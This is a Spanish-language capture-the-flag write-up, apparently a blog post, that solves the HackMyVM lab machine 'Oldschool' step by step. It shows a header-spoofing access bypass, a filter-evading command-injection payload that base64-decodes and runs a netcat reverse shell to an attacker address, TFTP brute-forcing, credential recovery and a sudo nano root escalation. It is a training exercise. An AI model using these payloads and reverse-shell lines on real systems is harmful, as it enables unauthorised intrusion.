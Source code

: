 ```yaml
---
layout: post
title: Oldschool - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Cromiphi \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/oldschool/oldschool.png#center)

## Reconocimiento

Lo primero, un escaneo rápido de la máquina:

```
sudo nmap -p- 192.168.1.85       
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-21 14:54 EST
Nmap scan report for 192.168.1.85
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
23/tcp open  telnet
80/tcp open  http
MAC Address: 08:00:27:24:8D:92 (Oracle VirtualBox virtual NIC)
```

### 80 (http)

Desde la página principal, al intentar hacer click en "tool" me redirige a "verification.php" y seguidamente a "denied.php" por lo que se tiene que producir una autentificación de algún tipo. Para esto utilizo Burpsuite.

Muy importante seleccionar en burpsuite que muestre también las respuestas ya que es ahí donde se encuentra la clave.

- Primero realizo la petición a "verification.php":

```
GET /verification.php HTTP/1.1
Host: 192.168.1.85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.1.85/
Upgrade-Insecure-Requests: 1
```

- A continuación, en la respuesta del servidor, encuentro una cabecera "Role" cuyo valor es "not admin".

```
HTTP/1.1 302 Found
Date: Wed, 21 Dec 2022 20:02:10 GMT
Server: Apache/2.4.54 (Debian)
Role: not admin
Location: ./denied.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

- Conociendo esto, pruebo a realizar la misma petición que antes pero añadiendo la cabecera **"Role: admin"**:

```
GET /verification.php HTTP/1.1
Host: 192.168.1.85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.1.85/
Role: admin  <------- Añadida
Upgrade-Insecure-Requests: 1
```

Ahora con la cabecera añadida, tengo acceso a "pingertool2000.php"

![img](/imgs/write-ups/hackmyvm/oldschool/oldschool_1.png#center)

## Explotación

En esta página es posible realizar un "command injection" y obtener una shell en el servidor.

Command injection:

- No está permitido el uso de comandos como "bash" o "echo" por lo que me salto esta restriccion usando commilas. Ej -> bas''h
- No está permitido el caracter ";" por lo que uso ${IFS}%0a para añadir un comando.
- Para evitar problemas de formato u otros posibles filtros, uso base64.

Primero obtengo en base64 la "reverse shell" a utilizar, en este caso uso una shell básica mediante netcat.

```
$ echo -n "nc -e /bin/bash 192.168.1.72 1239" | base64                                          
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS43MiAxMjM5
```

En burpsuite modifico el valor "url" por mi payload para obtener la shell.

```
url=asdf.com${IFS}%0aec''ho%09"bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS43MiAxMjM5"%09|%09base64%09-d%09|%09bas''h
```

Y con esto he obtenido acceso en el servidor como www-data.

```
$ nc -lvnp 1239
listening on [any] 1239 ...
connect to [192.168.1.72] from (UNKNOWN) [192.168.1.85] 43188
$ whoami
www-data
```

Desde dentro del servidor, ejecuto "linpeas.sh" para realizar una enumeración de posibles métodos de escalado de privilegios y encuentro que se ha ejecutado el siguiente comando:

```
/usr/sbin/in.tftpd --listen --user fanny --address :69 --secure /srv/tftp
```

Con esta información utilizo el módulo "tftpbrute" de metasploit.

```
msf6 > use auxiliary/scanner/tftp/tftpbrute
[...] (configuración opciones)
msf6 auxiliary(scanner/tftp/tftpbrute) > run

[+] Found passwd.cfg on 192.168.1.85
[+] Found pwd.bin on 192.168.1.85
[+] Found pwd.cfg on 192.168.1.85
[+] Found sip.cfg on 192.168.1.85
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Y ahora intento descargar los archivos.

```
$ tftp 192.168.1.85
tftp> connect
(to) 192.168.1.85
tftp> status
Connected to 192.168.1.85.
Mode: netascii Verbose: off Tracing: off Literal: off
Rexmt-interval: 5 seconds, Max-timeout: 25 seconds
tftp> get passwd.cfg
```

El único archivo que consigo descargar es "passwd.cfg".

```
$ cat passwd.cfg 
# lesspass default config password generator
# do not delete

lesspass oldschool.hmv fanny 14mw0nd32fu1
```

Con esta información, navego a la página oficial de [lesspass](https://www.lesspass.com/#/) y relleno con los datos de passwd.cfg para obtener una contraseña.

![img](/imgs/write-ups/hackmyvm/oldschool/oldschool_2.png#center)

Con esta contraseña inicio sesión mediante telnet y el usuario "fanny".

```
$ telnet 192.168.1.85 23
Trying 192.168.1.85...
Connected to 192.168.1.85.
Escape character is '^]'.
Debian GNU/Linux 11
oldschool.hmv login: fanny
Password: 
Linux oldschool.hmv 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64
[...]
fanny@oldschool:~$ :)
```

## Escalado de privilegios

Ejecutando sudo -l se puede ver que fanny tiene permisos para ejecutar "nano" como root sobre el fichero /etc/snmp/snmpd.conf.

```
fanny@oldschool:~$ sudo -l
Matching Defaults entries for fanny on oldschool:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fanny may run the following commands on oldschool:
    (ALL : ALL) NOPASSWD: /usr/bin/nano /etc/snmp/snmpd.conf
```

Se puede escalar privilegios de la siguiente manera [GTFObins Nano](https://gtfobins.github.io/gtfobins/nano/#sudo):

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

Y con esto se termina la máquina.

```
$ sudo /usr/bin/nano /etc/snmp/snmpd.conf
[...]
# id; hostname
uid=0(root) gid=0(root) groups=0(root)
oldschool.hmv
# :) 
```

Muchas gracias a **Cromiphi** por esta máquina.
